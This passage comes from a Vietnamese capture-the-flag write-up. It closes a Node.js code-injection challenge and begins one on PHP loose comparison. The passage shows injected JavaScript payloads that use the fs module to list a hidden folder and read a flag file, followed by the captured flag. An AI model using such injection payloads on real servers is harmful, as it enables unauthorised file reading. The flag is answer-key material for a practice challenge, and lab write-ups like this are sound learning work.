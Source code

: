 ![1](img/33/Screenshot%20from%202023-01-27%2009-27-57.png)

- Sửa lại payload (dùng module `fs` để đọc file):

```js
res.end(require('fs').readdirSync('./S3cr3tEv0d3f0ld3r').toString())
```

- Nhận thấy trong file `S3cr3tEv0d3f0ld3r` còn file nữa. Tiếp tục đọc file đó:

```js
res.end(require('fs').readFileSync('./S3cr3tEv0d3f0ld3r/Ev0d3fl4g').toString())
```

```
Flag: D0n0tTru5tEv0d3B4nK!
```

# 34. PHP - Loose Comparison

- Đọc source, ta thấy thuật toán là check `$s.$r == $h`. 
    - $r: 1 số random
    - $s: input của seed sau khi lọc data.
    - $h: md5 của seed.
